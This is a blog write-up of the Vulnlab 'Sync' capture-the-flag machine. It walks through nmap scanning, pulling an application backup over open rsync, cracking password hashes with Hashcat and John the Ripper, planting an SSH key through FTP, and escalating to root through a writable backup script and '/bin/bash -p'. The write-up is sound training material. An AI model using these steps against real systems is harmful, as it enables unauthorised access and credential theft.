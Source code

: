 +++
title = 'Vulnlab :: Sync Writeup'
date = 2025-01-15T12:02:13+01:00

draft = false

summary = 'Vulnlab :: Sync Writeup'

categories = ["vulnlab", "ctf", "misconfigurations"]

tags = ["exegol", "nmap", "linux", "ctf", "hashcat", "john-the-ripper", "pwncat-cs", "misconfigurations", "rsync", "php", "sqlite", "ftp", "ssh"]
+++

## Enumeration

### Nmap Scan

I started with a standard scan using Nmap:

```
Starting Nmap 7.93 ( https://nmap.org ) at 2025-01-02 18:11 CET
Nmap scan report for 10.10.95.205
Host is up (0.036s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.5
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 5840f1968f678e470e7ee41c1128949c (ECDSA)
|_  256 4b59e4b26397e5142d4df8d8c913ca2c (ED25519)
80/tcp  open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Login
|_http-server-header: Apache/2.4.52 (Ubuntu)
873/tcp open  rsync   (protocol version 31)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```


## Rsync

I noticed that the machine exposes an rsync service. I enumerated available modules:

```sh
rsync -av --list-only rsync://10.10.95.205/
```

I found a module named `httpd`:

```sh
rsync -av --list-only rsync://10.10.95.205/httpd
```

The rsync service contains an application backup. I downloaded it with:

```sh
rsync -av rsync://10.10.95.205/httpd ./httpd
```


## Application Analysis

### PHP

Reviewing the PHP code, I found a secret and the logic used to generate password hashes.

### Database

The database contains password hashes for two users.

### Hashcat

Using Hashcat, I managed to crack the password hash for the user `triss`.

## FTP

### FTP Access

SSH login is not possible with the cracked password, as key-based authentication is enforced. However, I was able to log in to the FTP server.

### SSH Key Upload

The FTP server's root directory is the home directory of the user `triss`, which allows me to upload my public SSH key.

```sh
cp ./.ssh/id_rsa.pub /workspace/
cat id_rsa.pub > authorized_keys
```

Now I can log in via SSH using my private key:

```sh
ssh triss@10.10.95.205 -i id_rsa
```


## Privilege Escalation

### User Flag

There is no user flag in `triss`'s home directory. However, due to a reference to "The Witcher" by Andrzej Sapkowski in the challenge, I guessed that the password for the user `jennifer` is the same as for `triss`. This allowed me to obtain the user flag.

### /backup Directory

After running LinPEAS, I discovered the `/backup` directory.

### John the Ripper

I found backup copies of `/etc/passwd` and `/etc/shadow`. I used John the Ripper to crack the password for the user `sa`:

```sh
unshadow passwd shadow > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=crypt
```


### backup.sh

I discovered a backup script owned by the user `sa`:

```sh
#!/bin/bash

mkdir -p /tmp/backup
cp -r /opt/httpd /tmp/backup
cp /etc/passwd /tmp/backup
cp /etc/shadow /tmp/backup
cp /etc/rsyncd.conf /tmp/backup
zip -r /backup/$(date +%s).zip /tmp/backup
rm -rf /tmp/backup
```

After modifying the script and executing it, I was able to escalate privileges and gain root access.

```sh
/bin/bash -p
```
